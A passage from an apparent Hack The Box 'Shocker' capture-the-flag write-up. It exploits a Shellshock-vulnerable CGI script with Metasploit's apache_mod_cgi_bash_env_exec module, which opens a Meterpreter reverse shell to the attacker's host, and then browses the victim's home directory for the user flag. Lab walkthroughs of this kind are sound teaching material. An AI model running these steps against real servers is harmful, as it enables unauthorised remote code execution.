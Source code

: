 ```bash
   10  exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     No     Qmail SMTP Bash Environment Variable Injection (Shellshock)
   11  exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution

Interact with a module by name or index. For example info 11, use 11 or use exploit/multi/misc/xdh_x_exec

msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > use 1
```

I need to configure this module as well:

```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhosts shocker.htb
rhosts => shocker.htb
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lhost 10.10.17.28
lhost => 10.10.17.28
```

Now, run the module and get a meterpreter shell:

```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.17.28:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (984904 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.17.28:4444 -> 10.10.10.56:55620) at 2021-08-18 16:03:39 +0200

meterpreter >
```

## Get the User Flag

---

The flag lies in the home of shelly:

```bash
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2017-09-22 21:49:12 +0200  shelly

meterpreter > cd shelly
meterpreter > ls
Listing: /home/shelly
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-12-24 20:44:05 +0100  .bash_history
100644/rw-r--r--  220   fil   2017-09-22 18:33:54 +0200  .bash_logout
100644/rw-r--r--  3771  fil   2017-09-22 18:33:54 +0200  .bashrc
40700/rwx------   4096  dir   2017-09-22 18:35:28 +0200  .cache
40775/rwxrwxr-x   4096  dir   2017-09-22 21:49:12 +0200  .nano
100644/rw-r--r--  655   fil   2017-09-22 18:33:54 +0200  .profile
100644/rw-r--r--  66    fil   2017-09-22 21:43:04 +0200  .selected_editor
```